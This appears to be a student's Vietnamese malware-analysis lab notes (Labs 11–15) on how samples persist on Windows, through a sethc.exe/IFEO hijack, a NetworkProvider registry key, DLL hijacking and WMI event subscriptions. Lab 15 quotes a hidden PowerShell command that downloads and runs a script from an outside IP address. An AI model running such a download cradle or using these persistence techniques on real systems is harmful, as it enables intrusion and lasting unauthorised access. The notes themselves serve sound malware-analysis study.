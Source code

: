 # Lab 11

- Mã độc thay thế đường dẫn của sethc.exe thành cmd.exe, khi ấn phím Shift 5 lần sẽ mở cmd.exe với quyền admin thay vì seth.exe.

- Cách thức persistent: mã độc dùng key HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options.

# Lab 12

- Đường dẫn: C:\Windows\System32\NPIlium.dll

- Cách thức persistent : mã độc dùng key Registry HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order.

# Lab 13

- Đường dẫn: C:\Program Files\PRTG Network Monitor\TmDbgLog.dll

- Cách thức persistent: mã độc dùng phương pháp Dll Hijacking để thay thế dll gốc.

# Lab 14

- Đường dẫn: C:\Windows\QcLite.dll

- Cách thức persistent: mã độc dùng phương pháp Dll Hijacking để thay thế dll gốc.

# Lab 15

- Mã độc thực thi lệnh: powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://39.109.114.56:80/a'))

- Cách thức persistent: Mã độc dùng WMI event subscription với WQL = SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'.
